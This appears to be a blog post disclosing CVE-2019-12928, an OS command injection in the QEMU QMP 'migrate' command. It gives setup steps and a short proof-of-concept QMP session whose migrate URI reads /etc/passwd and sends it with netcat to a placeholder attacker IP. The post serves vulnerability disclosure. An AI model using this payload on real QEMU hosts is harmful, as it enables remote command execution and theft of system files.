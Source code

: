 ```yaml
---
layout: post
title: "[CVE-2019-12928] QEMU Machine Protocol Migrate Remote Command Execution"
excerpt: "Unsanitized command execution."
modified: 2019-06-05
categories: proof-of-concept
tags: ["qemu"]
comments: true
---
```


# Overview
The QMP **migrate** command in QEMU version 4.0.0 and earlier is vulnerable to OS command injection, which allows the remote attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU with `-qmp tcp:<ip_address>:1234,server,nowait`
2nd, open another console and setup a listener to port 9999
3rd, connect to the target and enter the following commands:

# Proof-of-Concept
{% highlight json %}
{ "execute": "qmp_capabilities" }
{"return": {}}
{ "execute": "migrate", "arguments": { "uri": "exec:cat /etc/passwd | nc <attacker_ip> 9999" } }
{"return": {}}
{% endhighlight %}
